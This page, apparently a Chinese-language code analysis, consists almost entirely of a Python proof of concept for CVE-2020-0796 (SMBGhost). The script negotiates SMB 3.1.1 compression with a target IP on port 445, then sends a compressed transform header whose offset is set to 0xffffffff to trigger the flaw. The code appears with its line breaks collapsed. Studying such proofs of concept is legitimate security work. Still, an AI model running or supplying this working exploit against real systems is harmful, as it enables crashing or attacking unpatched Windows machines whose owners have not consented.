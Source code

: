 2.Python 代码解析
-------------

CVE-2020-0796-POC.py

```
import socket, struct, sysclass Smb2Header:    def __init__(self, command, message_id):        self.protocol_id = "\xfeSMB"        self.structure_size = "\x40\x00"  # Must be set to 0x40        self.credit_charge = "\x00"*2        self.channel_sequence = "\x00"*2        self.channel_reserved = "\x00"*2        self.command = command        self.credits_requested = "\x00"*2  # Number of credits requested / granted        self.flags = "\x00"*4        self.chain_offset = "\x00"*4  # Points to next message        self.message_id = message_id        self.reserved = "\x00"*4        self.tree_id = "\x00"*4  # Changes for some commands        self.session_id = "\x00"*8        self.signature = "\x00"*16    def get_packet(self):        return self.protocol_id + self.structure_size + self.credit_charge + self.channel_sequence + self.channel_reserved + self.command + self.credits_requested + self.flags + self.chain_offset + self.message_id + self.reserved + self.tree_id + self.session_id + self.signatureclass Smb2NegotiateRequest:    def __init__(self):        self.header = Smb2Header("\x00"*2, "\x00"*8)        self.structure_size = "\x24\x00"        self.dialect_count = "\x08\x00"  # 8 dialects        self.security_mode = "\x00"*2        self.reserved = "\x00"*2        self.capabilities = "\x7f\x00\x00\x00"        self.guid = "\x01\x02\xab\xcd"*4        self.negotiate_context = "\x78\x00"        self.additional_padding = "\x00"*2        self.negotiate_context_count = "\x02\x00"  # 2 Contexts        self.reserved_2 = "\x00"*2        self.dialects = "\x02\x02" + "\x10\x02" + "\x22\x02" + "\x24\x02" + "\x00\x03" + "\x02\x03" + "\x10\x03" + "\x11\x03"  # SMB 2.0.2, 2.1, 2.2.2, 2.2.3, 3.0, 3.0.2, 3.1.0, 3.1.1        self.padding = "\x00"*4    def context(self, type, length):        data_length = length        reserved = "\x00"*4        return type + data_length + reserved    def preauth_context(self):        hash_algorithm_count = "\x01\x00"  # 1 hash algorithm        salt_length = "\x20\x00"        hash_algorithm = "\x01\x00"  # SHA512        salt = "\x00"*32        pad = "\x00"*2        length = "\x26\x00"        context_header = self.context("\x01\x00", length)        return context_header + hash_algorithm_count + salt_length + hash_algorithm + salt + pad    def compression_context(self):        compression_algorithm_count = "\x03\x00"  # 3 Compression algorithms        padding = "\x00"*2        flags = "\x01\x00\x00\x00"        algorithms = "\x01\x00" + "\x02\x00" + "\x03\x00"  # LZNT1 + LZ77 + LZ77+Huffman        length = "\x0e\x00"        context_header = self.context("\x03\x00", length)        return context_header + compression_algorithm_count + padding + flags + algorithms    def get_packet(self):        padding = "\x00"*8        return self.header.get_packet() + self.structure_size + self.dialect_count + self.security_mode + self.reserved + self.capabilities + self.guid + self.negotiate_context + self.additional_padding + self.negotiate_context_count + self.reserved_2 + self.dialects + self.padding + self.preauth_context() + self.compression_context() + paddingclass NetBIOSWrapper:    def __init__(self, data):        self.session = "\x00"        self.length = struct.pack('>i', len(data)).decode('latin1')[1:]        self.data = data    def get_packet(self):        return self.session + self.length + self.dataclass Smb2CompressedTransformHeader:    def __init__(self, data):        self.data = data        self.protocol_id = "\xfcSMB"        self.original_decompressed_size = struct.pack('<i', len(self.data)).decode('latin1')        self.compression_algorithm = "\x01\x00"        self.flags = "\x00"*2        self.offset = "\xff\xff\xff\xff"  # Exploit the vulnerability    def get_packet(self):        return self.protocol_id + self.original_decompressed_size + self.compression_algorithm + self.flags + self.offset + self.datadef send_negotiation(sock):    negotiate = Smb2NegotiateRequest()    packet = NetBIOSWrapper(negotiate.get_packet()).get_packet()    sock.send(packet.encode('latin1'))    sock.recv(3000)def send_compressed(sock, data):    compressed = Smb2CompressedTransformHeader(data)    packet = NetBIOSWrapper(compressed.get_packet()).get_packet()    sock.send(packet.encode('latin1'))    #sock.recv(1000)if __name__ == "__main__":    if len(sys.argv) != 2:        exit("[-] Supply an IP: {} IP_ADDR".format(sys.argv[0]))    sock = socket.socket(socket.AF_INET)    sock.settimeout(3)    sock.connect((sys.argv[1], 445))    send_negotiation(sock)    send_compressed(sock, "A" * 50)
```
